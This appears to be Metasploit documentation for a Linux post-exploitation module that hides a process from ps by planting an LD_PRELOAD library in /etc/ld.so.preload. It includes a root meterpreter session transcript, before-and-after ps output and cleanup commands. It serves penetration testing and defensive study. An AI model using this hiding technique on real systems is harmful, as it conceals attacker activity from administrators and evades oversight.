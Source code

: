 ## Description

This module will hide a process with LD_PRELOAD according to command arguments or process name.


## Options

 **CMDLINE**

 The cmdline or process name to filter.

 **LIBPATH**

The shared obeject library file path. Use `/var/tmp/` as default directory.



## Verification Steps

1. get session on target
2. `use post/linux/manage/hide_process`
3. `set cmdline <cmdline>`
4. `run`

## Scenarios

### Tested on Kali Linux Rolling
```
msf5 post(linux/manage/hide_process) > options

Module options (post/linux/manage/hide_process):

   Name     Current Setting         Required  Description
   ----     ---------------         --------  -----------
   CMDLINE  evil.apk                yes       The cmdline to filter.
   LIBPATH  /var/tmp/.YzfidldoeyHd  yes       The shared obeject library file path
   SESSION  5                       yes       The session to run this module on.

msf5 post(linux/manage/hide_process) > sessions -i
sessions -i 1  sessions -i 5
msf5 post(linux/manage/hide_process) > sessions -i 5
[*] Starting interaction with 5...

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > sysinfo
Computer     : 192.168.56.103
OS           : Kali kali-rolling (Linux 4.17.0-kali1-amd64)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > bg
[*] Backgrounding session 5...
msf5 post(linux/manage/hide_process) > run

[!] SESSION may not be compatible with this module.
[*] Checking system requirement...
[+] All requirement is good.
[*] Writing c code to /tmp/TbkAYnG.c
[*] Compile c code to /var/tmp/.YzfidldoeyHd as a shared object library file
[*] Installing the process hider hook...
[+] Install the hook to hide process successful!
[+] To uninstall the hook, run command below in meterpreter.
execute -H -f sed -a "-i -e '/\/var\/tmp\/.YzfidldoeyHd/d' /etc/ld.so.preload"
rm /var/tmp/.YzfidldoeyHd
[*] Post module execution completed


```

## Before run the module
```
# root @ kali in /tmp [6:13:21] 
$ ps -ef | grep -v grep |grep evil.apk  
root      4809 10240  0 06:12 pts/2    00:00:00 vim evil.apk

```

## After 
```
# root @ kali in /tmp [6:15:30] 
$ ps -ef | grep -v grep |grep evil.apk  

```
Bingo! This process wouldn't show by `ps` command.

## Clean it
```
msf5 post(linux/manage/hide_process) > sessions -i 5
[*] Starting interaction with 5...

meterpreter > execute -H -f sed -a "-i -e '/\/var\/tmp\/.YzfidldoeyHd/d' /etc/ld.so.preload"
Process 4907 created.
meterpreter > rm /var/tmp/.YzfidldoeyHd
meterpreter >
```
Everything backs to normal!
